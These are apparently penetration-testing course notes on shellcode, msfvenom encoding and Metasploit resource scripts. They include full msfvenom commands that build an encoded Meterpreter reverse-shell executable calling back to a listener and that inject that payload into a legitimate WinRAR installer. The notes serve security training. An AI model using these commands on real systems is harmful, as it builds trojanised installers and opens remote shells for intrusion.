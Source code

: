#### Shellcode 
+ <mark style="background: #ADCCFFA6;">Shellcode</mark> (shell-code) is a piece of code typically used as payload for exploitation 
+ Gets its name from the term command shell, shellcode is a piece of code that provides an attacker with remote command shell on the target system

#### Encoding 
+ Can view all encoders with `msfvenom --list encoders`
	+ The best being `x86/shikata_ga_nai` encoder which is Polymorphic or `cmd/powershell_base64` for power-shell
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.107 lport=6001 -i 10 -e x86/shikata_ga_nai -f exe > securitytutorials.exe`
	+ Where the `-e` is to specify encoding 
	+ `-i` specifies the number of iterations it will encode it 
		+ not much better after 10

### Injecting Payloads Into Windows Portable Executables 

+ Will first find a legitimate portable executable 
	+ WinRAR setup file is one of the most popular 
		+ https://www.win-rar.com/download.html?&L=0
+ Then `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT:PORT -i 10 -e x86/shikata_ga_nai -f exe -x wrar602.exe > payloads/winrar.exe`
	+ `-x`: Specify a custom executable file to use as a template
	+ `-k`: Preserve the --template behavior and inject the payload as a new thread
		+ Very often does not work

### Automating Metasploit With Resource Scripts 

#### Metasploit Resource Scripts 
+ Metasploit resource scripts allow automation of repetitive tasks and commands 
+ Similar to batch script, can specify a set of Msfconsole commands that execute sequentially 
+ Can load the script with Msfconsole and automate the execution 
+ Can be used for multi-handlers as well as loading and executing payloads

Prepackaged metasploit scripts found in `ls -al /usr/share/metasploit-framework/scripts/resource`

#### Making and Using Metasploit Resource Scripts 

+ To make one, will make a file with the `.rc` and populated with the commands needed to be run in order
![](MSFScript.png)
+ Can also automate a task just ran in msfconsole by using `makerc /PATH/SCRIPT.rc`
+ Will save commands typed 
+ To use one, will use `msfconsole -r SCRIPT.rc`
	+ Can also so it within msfconsole by using `resource /PATH/SCRIPT.rc`

# Metasploit Exploitation 

## Windows Exploitation 

